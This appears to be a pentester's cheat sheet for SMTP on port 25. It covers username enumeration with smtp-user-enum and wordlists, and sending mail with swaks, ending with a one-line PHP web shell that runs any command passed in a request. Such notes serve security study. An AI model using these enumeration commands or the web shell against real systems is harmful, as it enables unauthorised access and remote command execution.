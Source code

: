 # smtp :25

## User enum

check for any possible usernames / department names available

```bash
# takes time to run
smtp-user-enum [flag]-U <user-list> -t <IP/Domain>
- /usr/share/seclists/Usernames/top-usernames-shortlist.txt
- /usr/share/seclists/Usernames/Names/names.txt
- /usr/share/wordlists/metasploit/unix_users.txt

# flags
# check if mailbox exists
-M RCPT
# check if user exists
-M VRFY
```

## Cheatsheet for commands:

[samlogic.net/smtp-commands-reference.htm](https://www.samlogic.net/articles/smtp-commands-reference.htm)

## Swiss Army Knife for SMTP

* [jetmore/swaks](https://github.com/jetmore/swaks)

```bash
# send auto email
$ swaks --to EMAIL --from kashz --header "Subject: kashz" --body "SHELL or LINK?" --server IP
<?php system($_REQUEST["cmd"]); ?>
```
